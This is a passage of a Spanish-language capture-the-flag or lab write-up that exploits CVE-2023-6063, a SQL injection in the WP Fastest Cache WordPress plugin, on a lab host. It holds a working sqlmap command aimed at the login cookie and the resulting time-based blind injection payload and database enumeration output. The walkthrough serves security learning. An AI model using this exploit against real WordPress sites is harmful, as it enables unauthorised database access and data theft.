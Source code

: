 asi que comienzo una busqueda de exploit's para alguno de los plugin desactualizados y consigo un `CVE` asociado a uno de los plugin:

```
plugin: {wordpress-wp-fastest-cache} WP Fastest Cache 1.2.1
CVE Asociado: CVE-2023-6063
Vuln: Inyeccion SQL
```

asi que busco un exploit para el `CVE-2023-6063` y me consigo con este repositorio `https://github.com/thesafdari/CVE-2023-6063` con una `POC` 

![Screenshot From 2024-11-08 13-43-26](https://github.com/user-attachments/assets/a12e000a-0771-47d1-b5b5-c05e4b63e135)

asi que lo adapto a mi contexto quedando:

```ruby
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --dbs --batch
```
```css
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.9#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:45:21 /2024-11-08/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:45:22] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:45:22] [WARNING] provided value for parameter 'wordpress_logged_in' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:45:22] [INFO] testing connection to the target URL
got a 302 redirect to 'http://norc.labs'. Do you want to follow? [Y/n] Y
[13:45:22] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: wordpress_logged_in=" AND (SELECT 1947 FROM (SELECT(SLEEP(5)))QSQO) AND "LRNz"="LRNz
---
[13:45:22] [INFO] testing MySQL
[13:45:22] [INFO] confirming MySQL
[13:45:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.59
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:45:22] [INFO] fetching database names
[13:45:22] [INFO] fetching number of databases
[13:45:22] [INFO] resumed: 2
[13:45:22] [INFO] resumed: information_schema
[13:45:22] [INFO] resumed: wordpress
available databases [2]:
[*] information_schema
[*] wordpress

```